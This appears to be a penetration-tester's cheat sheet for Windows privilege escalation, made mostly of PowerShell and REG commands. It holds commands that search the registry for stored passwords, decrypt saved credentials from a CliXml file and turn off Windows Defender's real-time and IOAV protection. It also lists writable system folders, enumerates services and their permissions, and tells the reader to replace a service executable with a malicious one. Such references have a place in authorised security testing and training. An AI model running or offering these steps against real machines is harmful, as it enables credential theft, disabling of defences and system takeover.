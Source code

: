```powershell

#search for password in registry
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K



Powershell read secret files
$credential = Import-CliXml -Path C:\Data\Users\app\user.txt
$credential.GetNetworkCredential().Password



# check status of Defender
PS C:\> Get-MpComputerStatus

# disable Real Time Monitoring
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true

# Default Writeable Folders
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing
```

**Automated Check**:

**[windows-privesc-check2](https://github.com/pentestmonkey/windows-privesc-check)**

```powershell
windows-privesc-check2.exe --dump -a
```



# Insecure File Permissions

- Get running Services

  ```powershell
  Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
  ```

- Check the suspected service **owners**

  ```powershell
  icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
  ```

- Replace the exe with malicious one and restart the service, If no permission for service restart, restart machine, OR wait until service get restarted.
